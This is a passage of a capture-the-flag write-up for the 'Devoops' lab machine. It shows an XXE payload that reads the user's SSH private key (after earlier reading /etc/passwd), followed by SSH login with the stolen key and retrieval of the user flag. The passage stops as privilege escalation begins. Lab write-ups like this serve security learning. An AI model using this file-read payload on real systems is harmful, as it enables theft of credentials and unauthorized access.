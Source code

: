 Now we will get the ssh authentication key of the roosa user as we know from the NMAP scan that SSH is open

Below is the XML Code to get the ssh authentication key for **“roosa”** user

> <?xml version=”1.0" encoding=”ISO-8859–1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM “file:///home/roosa/.ssh/id_rsa” >]>
<creds>
 <Author>&xxe;</Author>
 <Subject>mysub</Subject>
 <Content>mycontent</Content>
</creds>

> <! — We just replaced /etc/passwd from the previous code by /home/roosa/.ssh/id_rsa →

Now we just modify the code in the Burp Repeater and click Go

![Getting SSH Key](../img/Devoops Writeup/1_Uc5HoNpGuan6IGWcahd3Eg.png)

Here we get the ssh in the response body , now we copy the part from — — — — BEGIN to — — — — END RSA….. and save it to a file named **_“id_rsa”_**

But yeah change the permission of **id_rsa** file to **600** using **“chmod 600 id_rsa”**

#### Login Through SSH

> Now we open a terminal and connect through ssh using command **“ssh roosa@10.10.10.91 -i id_rsa”**

![SSH Connection Successful](../img/Devoops Writeup/1_OIhZp5i8nqSGKhef5xvnrQ.png)

Boom !!! We are in , now lets dig further

#### Getting User Flag

The user flag was in the same directory to which we were login through ssh , just type the command **_ls_** and you will see

![user.txt](../img/Devoops Writeup/1_tSoZVRQ0Psdl2yBVJVlFRg.png)

# Privilege Escalation

Privilege Escalation was little tough and tricky on this machine , so lets move forward to it

#### Searching and searching for some clues

There was a script on the directory , which is a in the SS below

![run-blogfeed.sh](../img/Devoops Writeup/1_m501Lf9uU6Vzq9ciDz5hzg.png)

After searching more , this wasn't useful, but yeah then we saw 2 directories which was odd , i.e , **work **and **deploy**

![](../img/Devoops Writeup/1_NnAdhZpvQJPlpPdGXd3iTQ.png)
